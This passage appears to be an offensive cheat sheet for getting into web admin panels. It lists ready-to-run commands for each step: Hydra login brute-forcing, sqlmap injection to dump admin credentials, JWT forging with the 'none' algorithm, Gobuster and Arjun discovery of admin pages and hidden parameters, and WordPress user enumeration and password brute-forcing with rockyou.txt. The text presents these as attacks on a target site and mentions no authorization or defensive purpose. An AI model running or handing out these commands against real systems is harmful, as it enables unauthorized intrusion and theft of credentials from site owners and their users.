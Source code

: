 
### **2️⃣ Bruteforce & Credential Stuffing**
#### **Tools:**
- **Hydra**:  
  ```bash
  hydra -L users.txt -P passwords.txt http-post-form "/admin/login.php:username=^USER^&password=^PASS^:F=Incorrect"
  ```
- **Gobuster (Finding Admin Pages)**:  
  ```bash
  gobuster dir -u https://example.com -w /usr/share/wordlists/dirb/common.txt -x php,html,aspx
  ```

---

### **3️⃣ SQL Injection Automation**
Automate SQLi to bypass login pages:
```bash
sqlmap -u "http://example.com/admin/login" --data="username=admin&password=pass" --dbs --batch
```
👉 **Get Admin Credentials:**
```bash
sqlmap -u "http://example.com/admin/login" --data="username=admin&password=pass" --dump
```

---

### **4️⃣ Cookie / JWT Exploitation**
- Extract **JWT Token**:
  ```bash
  curl -X POST "https://target.com/api/login" -d "user=admin&pass=admin" -v
  ```
- Decode & Modify it:
  ```bash
  jwt_tool token.jwt -X -S none
  ```

---

### **5️⃣ API Misconfiguration Exploitation**
Use **Arjun** to find hidden API parameters:
```bash
python3 arjun.py -u "https://example.com/admin" -m GET
```

---

## **🔥 CMS-Specific Exploits**
### **1️⃣ WordPress (wp-admin Bypass)**
👉 **Find Admin Panel:**
```bash
wpscan --url https://example.com --enumerate vp
```
👉 **Bruteforce Attack:**
```bash
wpscan --url https://example.com -U admin -P rockyou.txt
```
👉 **Exploit Vulnerable Plugins:**  
Use **exploit-db** to find vulnerable WordPress plugins.

---